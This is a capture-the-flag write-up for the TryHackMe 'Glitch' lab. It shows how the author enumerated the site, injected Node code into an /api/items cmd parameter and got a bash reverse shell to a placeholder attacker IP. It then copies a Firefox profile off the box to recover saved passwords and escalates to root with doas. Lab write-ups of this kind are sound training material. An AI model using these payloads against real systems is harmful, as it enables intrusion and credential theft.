

# 📝 Writeup – Glitch (TryHackMe)

---

## TL;DR (because we’re lazy)
Found a token in `/api/access`, set it as the browser token to unlock the site, discovered a vulnerable `/api/items` endpoint that evals a `cmd` parameter, abused that (child_process.exec) to get a Node reverse shell, escalated from `user` → `v0id` by extracting Firefox saved passwords, and then used `doas` rights to read the root flag. Clean, weird, fun.

---

## ENUMERATION
Start with the usual nmap sweep:

```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
````

Only port open: `80`. Focused scan:

```bash
nmap -p80 -sC -sV -vv -oN scan.nmap <IP>
```

Screenshot:


---

## PORT 80 — site exploration

The site looked empty except for a glitchy background. Inspecting the source revealed an `/api/access` endpoint. Visiting it returned a base64 token. Decode it:

```bash
echo 'BASE64TOKEN' | base64 -d
```

Screenshot:


Set that decoded value in DevTools (Application → Cookies → `token`) and refresh. The site unlocks more content. Inspecting the page source revealed `js/script.js` -> revealed an API endpoint: `/api/items`.

Screenshots:


     

The frontend used `GET` to view items, but the API accepted `POST` too — so we fuzzed query/body params.

---

## FINDING THE VULN — parameter fuzzing

I fuzzed possible query parameter names with `ffuf` (POST):

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/objects.txt:FUZZ \
  -X POST -u "http://<IP>/api/items?FUZZ=test"
```

Result: the endpoint accepted a `cmd` parameter. Quick manual probe:

```bash
curl -X POST "http://<IP>/api/items?cmd=test"
```

Screenshots:


Response contents showed the backend was using `eval()` or similar, so we can used Node-style `child_process`. That’s exactly the kind of code-injection RCE you want.

---

## EXPLOITATION — spawn a shell

Since the server was running Node and evaluating `cmd`, we can invoke `require('child_process').exec(...)`. You need to URL-encode the payload so special characters survive.

**Simpler (less quoting hell) technique:** use `--data-urlencode` to let `curl` handle encoding. Example payload that runs a reverse TCP shell:

> Note: replace `<ATTACK_IP>` and `<PORT>` and run a listener (`nc -nvlp <PORT>`) on your machine first.

```bash
curl -s -X POST --get \
  --data-urlencode "cmd=require('child_process').exec(\"/bin/bash -i >& /dev/tcp/<ATTACK_IP>/<PORT> 0>&1\")" \
  "http://<IP>/api/items"
```

If that quoting is annoying, build the encoded payload in Python and send:

```bash
python3 -c "import urllib.parse,sys;print(urllib.parse.quote(\"require('child_process').exec('/bin/bash -i >& /dev/tcp/<ATTACK_IP>/<PORT> 0>&1')\"))"
# then use curl with the encoded value: ?cmd=<ENCODED>
```

Start your listener:

```bash
nc -nvlp <PORT>
```

Trigger the payload, and you get a shell as the web process user.

Screenshot:     


---

## user → v0id (steal FF profile)

While poking around, I found a `.firefox` profile in the user’s home. Firefox stores saved passwords in the profile — so getting that directory is a fast win.

On the box get a proper TTY:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Tar the profile and transfer it off the box.

### 1) Prep your attacker machine — enable SSH server

(Assumes a Linux attacker box — Debian/Ubuntu examples. If you’re on another distro, adapt package manager.)

```bash
# install OpenSSH server
sudo apt update
sudo apt install openssh-server -y

# ensure SSH service is running and enabled
sudo systemctl start ssh

# check status
sudo systemctl status ssh
```

Make note of your attacker IP (e.g. `10.10.14.5`). You’ll use that from the target.

---

### 2) On the target (user shell), pack the Firefox profile

Create a tarball of the `.firefox` profile (or the folder you want):

```bash
# from the user's current dir where .firefox is located
tar -czvf firefox.tgz .firefox
# verify file exists
ls -lh firefox.tgz
```
---

### 3) From the target: `scp` the tarball to your attacker machine

Use the attacker username and IP you set up. Example — attacker username `kali`, attacker IP `10.10.14.5`:

```bash
scp firefox.tgz kali@10.10.14.5:/home/kali/firefox.tgz
# you will be prompted for kali's password on the attacker machine
```

If your SSH server runs on a non-standard port on the attacker, add `-P <port>`:

```bash
scp -P 2222 firefox.tgz kali@10.10.14.5:/home/kali/firefox.tgz
```
---

### 4) On attacker: receive & extract

Once the file is on your machine:

```bash
# list and confirm
ls -lh /home/kali/firefox.tgz

# extract
tar -xzf firefox.tgz
# open the profile with a disposable firefox profile (no-remote)
firefox --no-remote --profile .firefox/b5w4643p.default-release --allow-downgrade
```

Now inspect saved logins, cookies, etc.

---
Navigate to password and yay — password for `v0id`.      
Screenshot:       


`su v0id` or SSH as v0id.

---

## v0id → root (doas)

I hunted for SUID or sudo-like configs.

```bash
find / -perm -4000 -exec ls -l {} \; 2>/dev/null

# search for doas.conf
find / -name doas.conf 2>/dev/null
```

`doas` is like a minimal sudo. If the conf allowed user as root.       
Found a `doas.conf` that permits `v0id` to run commands as root.       
Screenshots:     
      


Now all we have to do is cat flag:      
```bash
doas -u root cat /root/root.txt
```

Boom — root flag.      
Screenshot:       


---


## Final words

Glitch was a neat chain: token → unlock UI → fuzz API → JS eval RCE → child_process shell → steal Firefox creds → doas → root. Classic mix of front-end curiosity + backend injection. Good job finding that token early — that’s the pivot point.

---
